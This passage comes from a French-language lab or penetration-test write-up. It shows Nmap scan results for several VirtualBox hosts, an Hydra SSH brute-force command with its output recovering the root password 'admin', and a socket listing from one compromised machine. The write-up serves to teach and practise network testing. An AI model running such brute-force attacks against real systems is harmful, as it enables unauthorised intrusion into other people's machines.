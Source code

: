 ```sh
80/tcp   open  http
8080/tcp open  http-proxy
MAC Address: 08:00:27:81:00:D4 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.215.217
Host is up (0.00012s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
9000/tcp open  cslistener
MAC Address: 08:00:27:0A:59:47 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.215.249
Host is up (0.000088s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 08:00:27:74:9C:BA (Oracle VirtualBox virtual NIC)
```

### Étape 2 : Exploitation des services ouverts

#### Port 22 (SSH) sur l'hôte `192.168.215.249`

Nous avons tenté une attaque par force brute sur le service SSH de l'hôte `192.168.215.249` à l'aide d'Hydra :

```sh
➜  .lst hydra -L .username.txt -P .pass.txt 192.168.215.249 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-29 14:29:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 99 login tries (l:9/p:11), ~7 tries per task
[DATA] attacking ssh://192.168.215.249:22/
[22][ssh] host: 192.168.215.249   login: root   password: admin
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-29 14:29:53
```

Le mot de passe root a été trouvé (root/admin). Nous pouvons donc commencer l'investigation des machines.

### Investigation des machines

#### Machine 1 (192.168.215.91)

```sh
[root@device-33 ~]# ss -lntp
State      Recv-Q Send-Q Local Address:Port Peer Address:Port              
LISTEN     0      128      *:22             *:*          users:(("sshd",pid=902,fd=3))
LISTEN     0      100 127.0.0.1:25         *:*          users:(("master",pid=1550,fd=13))
LISTEN     0      128     :::8080          :::*         users:(("docker-proxy",pid=2683,fd=4))
LISTEN     0      128     :::80            :::*         users:(("docker-proxy",pid=2639,fd=4))
LISTEN     0      128     :::21            :::*         users:(("docker-proxy",pid=2555,fd=4))
LISTEN     0      128     :::22            :::*         users:(("sshd",pid=902,fd=4))
LISTEN     0      100     ::1:25           :::*         users:(("master",pid=1550,fd=14))
```
